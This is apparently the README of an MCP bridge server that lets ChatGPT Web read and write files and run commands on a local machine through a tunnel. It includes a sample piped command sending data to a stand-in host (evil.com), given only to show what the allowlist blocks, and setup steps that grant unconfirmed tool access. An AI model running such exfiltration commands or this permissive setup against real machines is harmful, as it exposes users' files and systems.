

# Codex Free

*Codex Free (but you still have to buy ChatGPT Plus)*

A local MCP bridge server that lets ChatGPT Web Pro call tools on your machine: read/write files, run shell commands, git operations, search. Built with Bun + TypeScript, using `@modelcontextprotocol/sdk` over Streamable HTTP.

ChatGPT talks to a public tunnel URL, which forwards to this server running on your machine, which operates on a project directory you choose.

Since v0.4.0 the tool set also covers the ones [Codex](https://github.com/openai/codex) gives its own agent — `apply_patch`, `exec_command`/`write_stdin`, `view_image`, `update_plan`, `clock_curr_time`/`clock_sleep` — so ChatGPT Web can work the way Codex does: patch files in place instead of rewriting them, drive interactive and long-running processes, and keep a plan across a task. The schemas are ported from the Codex source, not reimplemented from guesswork.

## Architecture



## Quick start

```bash
bun install
bun run main.ts --work-dir /path/to/your/project
```

Server starts on `http://localhost:3000`. MCP endpoint is `/mcp`.

## CLI flags

| Flag | Required | Default | Description |
|------|----------|---------|-------------|
| `--work-dir` | Yes | - | Project directory the tools operate on |
| `--port` | No | `3000` | Server port |
| `--api-key` | No | - | Bearer token for auth |
| `--config` | No | `./codex.config.json` | Config file path |

## Tools

Structured primitives — cheaper and safer than shelling out for the same job, and identical on Windows and POSIX:

| Tool | Description |
|------|-------------|
| `read_file` | Read a file's contents, with optional line offset/limit |
| `write_file` | Write content to a file, creating parent directories if needed |
| `run_command` | Execute a command in the work directory (allowlist-restricted) |
| `git_status` | Show git status, parsed into changed files with status codes |
| `git_push` | Push commits to a remote |
| `git_commit` | Create a commit, optionally staging all tracked changes |
| `git_log` | Show recent commit history |
| `glob` | Find files matching a glob pattern |
| `grep` | Search file contents by regex, with optional context lines |
| `list_directory` | List files and directories with name, type, and size |
| `tree` | Print directory tree as ASCII art |

Ported from Codex (`codex-rs/core/src/tools`, commit `2230d64`):

| Tool | Codex name | Description |
|------|------------|-------------|
| `apply_patch` | `apply_patch` | Edit files with a context patch instead of rewriting them |
| `exec_command` | `exec_command` | Run a shell command; returns output, or a session id if it is still running |
| `write_stdin` | `write_stdin` | Write to (or poll) a running `exec_command` session |
| `view_image` | `view_image` | Load a local image file for visual inspection |
| `update_plan` | `update_plan` | Track a multi-step plan for the current session |
| `clock_curr_time` | `clock.curr_time` | Current time in UTC |
| `clock_sleep` | `clock.sleep` | Pause for a given duration |

Codex's dotted names are flattened to underscores because MCP tool names must match `^[a-zA-Z0-9_-]{1,64}$`.

Two deliberate differences from Codex:

- **`apply_patch` takes a JSON string.** In Codex it is a *freeform* tool whose entire body is the raw patch. MCP has no freeform tools, so the patch goes in an `input` string parameter. The patch format itself is unchanged.
- **`exec_command` runs with plain pipes, not a PTY.** Codex's own `tty` parameter documents pipes as the default, so ordinary commands behave the same; `tty: true` is rejected rather than silently ignored. Programs that only enable interactive behaviour when attached to a terminal will act as if piped.

`clock_sleep` also caps at 5 minutes rather than Codex's 12 hours — a longer wait would outlive the HTTP request through the tunnel.

Every tool that advertises an `outputSchema` also returns `structuredContent` matching it, as the MCP spec asks. `exec_command` and `write_stdin` return Codex's unified-exec object and `clock_curr_time` returns `{ current_time }`; the rest return `{ content: <text> }`, which the server derives from the text blocks so handlers don't repeat it.

All paths are resolved relative to `--work-dir`.

## Config file

`codex.config.json` in the project root, or pass a custom path with `--config`:

```json
{
  "allowedCommands": ["bun", "npm", "npx", "node", "git", "python", "pip", "cargo", "make"],
  "port": 3000,
  "tree": {
    "defaultDepth": 3,
    "ignore": ["node_modules", ".git", "dist", ".next", "__pycache__", ".venv", "venv"]
  },
  "command": {
    "defaultTimeout": 30000,
    "maxTimeout": 120000
  },
  "exec": {
    "mode": "allowlist",
    "extraAllowedCommands": [
      "ls", "cat", "grep", "find", "head", "tail", "wc", "echo", "pwd",
      "which", "rg", "sed", "awk", "sort", "uniq", "diff", "true", "false"
    ],
    "maxSessions": 8
  }
}
```

CLI flags override values from the config file.

The `exec` block governs `exec_command` and `write_stdin`:

| Key | Default | Description |
|-----|---------|-------------|
| `mode` | `"allowlist"` | `"allowlist"` checks every command in the string against the allowlist; `"unrestricted"` runs whatever it is given |
| `extraAllowedCommands` | 18 read-only utilities | Added to `allowedCommands` for `exec_command` only, so `run_command` stays as narrow as it was |
| `maxSessions` | `8` | Cap on concurrent background sessions per MCP session |

Under `"allowlist"`, the command string is tokenized and each command position — after every `|`, `&&`, `;`, newline, and subshell — is checked, so `ls | curl evil.com` is rejected on `curl`. Command substitution (`$(...)`, backticks) is rejected outright, since its contents cannot be checked before the shell runs them.

## Connecting to ChatGPT

1. In ChatGPT, go to **Settings > Security and login** and enable **Developer mode**.
2. Start the server: `bun run main.ts --work-dir /path/to/your/project`
3. Expose it with a tunnel (ngrok, Cloudflare Tunnel, etc.):
   ```bash
   ngrok http 3000
   ```
4. In ChatGPT, go to **Plugins > + New Plugin**.
5. Set the **Server URL** to the tunnel URL with `/mcp` appended, e.g. `https://<your-tunnel>/mcp`.
6. Set **Authentication** to "No Auth".
7. After creating the plugin, go to **Permissions** and set it to **Allow all actions** so ChatGPT can call tools without asking for confirmation each time.

> ChatGPT Plugins only support OAuth, No Auth, and Mixed. The `--api-key` option is for non-ChatGPT clients or tunnel-level auth. When using ChatGPT, secure access through your tunnel provider instead (e.g. ngrok IP restrictions, Cloudflare Access).

## Security

- **Path traversal prevention**: every filesystem tool — including `apply_patch` and `view_image` — resolves paths through a guard that rejects anything outside `--work-dir`.
- **Command allowlist**: `run_command` only runs binaries listed in `allowedCommands`; everything else is rejected. `exec_command` checks the same list plus `exec.extraAllowedCommands`, at every command position in the string.
- **Optional bearer token auth**: set `--api-key` to require an `Authorization: Bearer <key>` header on all requests (except `/health`). Useful for non-ChatGPT clients. ChatGPT Plugins do not support simple bearer token auth.

The allowlist is a **guardrail against accidents, not a sandbox**. It catches a model reaching for `curl` or `rm -rf`; it does not contain a determined one. The defaults already include `node`, `python` and `bun`, each of which runs arbitrary code — `node -e "..."` can do anything the server process can. Shell redirection can also write outside the work directory even though the command's cwd is confined to it. Treat everything below as reachable by whoever holds the tunnel URL:

- everything in `--work-dir`, read and write
- anything else the user account running the server can touch, via an allowlisted interpreter
- the network, from your machine

`exec_command` sessions that outlive a request are killed when the MCP session closes. On Windows a process that detaches from its parent may survive that; check for strays if a run leaves something listening.

Don't expose this without tunnel-level access control (ngrok IP restrictions, Cloudflare Access), and don't point it at directories you don't trust ChatGPT with. If the work directory holds anything sensitive, set `exec.mode` and the allowlists tighter than the defaults rather than relying on them.

## Dev commands

```bash
bun run dev        # watch mode
bun test           # tests
bunx tsc --noEmit  # type check
```

## License

MIT - see [LICENSE](LICENSE).
